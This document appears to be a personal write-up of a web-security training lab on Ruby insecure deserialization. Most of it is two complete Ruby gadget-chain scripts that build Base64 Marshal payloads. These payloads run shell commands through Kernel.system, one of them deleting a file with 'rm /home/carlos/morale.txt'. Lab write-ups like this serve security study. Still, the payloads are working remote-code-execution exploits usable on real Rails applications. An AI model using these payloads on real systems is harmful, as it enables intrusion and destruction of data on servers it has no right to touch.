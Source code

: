# [Insecure deserialization] Lab: Exploiting Ruby deserialization using a documented gadget chain (1)

---

![Untitled](%5BInsecure%20deserialization%5D%20Lab%20Exploiting%20Ruby%20des%206f08889bec9543ae81eb240e32f07bc5/Untitled.png)

trying to get frame work by causing server error: 

![Untitled](%5BInsecure%20deserialization%5D%20Lab%20Exploiting%20Ruby%20des%206f08889bec9543ae81eb240e32f07bc5/Untitled%201.png)

lets just see if there are any generic deserialization exploits for ruby 

i came across this site: [https://bishopfox.com/blog/ruby-vulnerabilities-exploits](https://bishopfox.com/blog/ruby-vulnerabilities-exploits)

that included this script: 

```jsx
# original code by Harsh Jaiswal, AKA rootxharsh and Rahul Maini, AKA iamnoooob
# Mostly based on:
# https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md

require 'rails/all'
require 'base64'
# following three lines added for older versions of Ruby on Rails:
require 'rack/response'
require 'active_record/associations'
require 'active_record/associations/association'

require "yaml"
Gem::SpecFetcher
Gem::Installer

require 'sprockets'
class Gem::Package::TarReader
end

require 'bundler/inline'

gemfile do
  source 'https://rubygems.org'
  gem 'oj', require: true
end

d = Rack::Response.allocate
d.instance_variable_set(:@buffered, false)

d0=Rails::Initializable::Initializer.allocate
d0.instance_variable_set(:@context,Sprockets::Context.allocate)

d1=Gem::Security::Policy.allocate
# Can't use angle brackets in the command below or it will result in a dump format error(0xc3) ArgumentException
# Similar problem for + signs in some Ruby versions
# So the code below dynamically builds the string 'date >> /tmp/rce9a.txt'
d1.instance_variable_set(:@name,{ :filename => "/tmp/xyz.txt", :environment => d0  , :data => "<%= os_command = 'date '; os_command.concat(62.chr); os_command.concat(62.chr); os_command.concat('/tmp/rce9a.txt'); system(os_command); %>", :metadata => {}})

d2=Set.new([d1])

d.instance_variable_set(:@body, d2)
d.instance_variable_set(:@writer, Sprockets::ERBProcessor.allocate)

c=Logger.allocate
c.instance_variable_set(:@logdev, d)

e=Gem::Package::TarReader::Entry.allocate
e.instance_variable_set(:@read,2)
e.instance_variable_set(:@header,"bbbb")

b=Net::BufferedIO.allocate
b.instance_variable_set(:@io,e)
b.instance_variable_set(:@debug_output,c)

$a=Gem::Package::TarReader.allocate
$a.instance_variable_set(:@init_pos,Gem::SpecFetcher.allocate)
$a.instance_variable_set(:@io,b)

module ActiveRecord
    module Associations
        class Association
            def marshal_dump
                # Gem::Installer instance is also set here
                # because it autoloads Gem::Package which is
                # required in rest of the chain
                [Gem::Installer.allocate, $a] 
            end
        end
    end
end

# binary form
final = ActiveRecord::Associations::Association.allocate
puts Base64.strict_encode64(Marshal.dump(final))
```

right now the script was executing the data command and passing it to a file. 

but we want it to remove a morale.txt file to be deleted. 

so lets change the command to `rm /home/carlos/morale.txt`

![Untitled](%5BInsecure%20deserialization%5D%20Lab%20Exploiting%20Ruby%20des%206f08889bec9543ae81eb240e32f07bc5/Untitled%202.png)

![Untitled](%5BInsecure%20deserialization%5D%20Lab%20Exploiting%20Ruby%20des%206f08889bec9543ae81eb240e32f07bc5/Untitled%203.png)

and other we go lab solved: 

![Untitled](%5BInsecure%20deserialization%5D%20Lab%20Exploiting%20Ruby%20des%206f08889bec9543ae81eb240e32f07bc5/dee18f11-ecf1-4b48-8edc-2712691d810a.png)

---

**FINAL CODE:** 

```jsx
# Original code by William Bowling, AKA vakzz
# Mostly based on https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

require "base64"

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")

n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump({payload: [Gem::SpecFetcher, Gem::Installer, r]})
puts Base64.strict_encode64(payload)
```